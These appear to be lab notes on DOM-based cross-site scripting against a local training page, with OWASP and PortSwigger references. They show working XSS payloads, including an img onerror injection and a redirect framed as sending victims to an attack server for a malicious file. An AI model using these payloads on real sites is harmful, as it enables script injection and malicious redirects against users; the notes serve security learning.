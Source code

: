 http://localhost/labs/x0x01.php   #xss/dom
https://owasp.org/www-community/attacks/DOM_Based_XSS
https://portswigger.net/web-security/cross-site-scripting/dom-based

## SETUP  
* DEV TOOLS -> Network Tab
* when you type in the form and add an item to your list, you don't see any new requests in the network tab.
* this tells us everything happening in this form is happening local/client based, thus DOM XSS

## Try Basic Payloads
```js
<script>prompt(1)</script>
```
* FAIL : this didn't work, because even though the code is being added to the page, it is NOT getting called, we need a trigger
```js
<img src=x onerror="prompt(1)">
```
* DOM XSS successful! 
* Lets try using same payload, but forwarding user to a different location, such as an attack server to get a malicous file?
```js 
<img src=x onerror="window.location.href='https://tcm-sec.com'">
```
* This successfully redirects user to URL above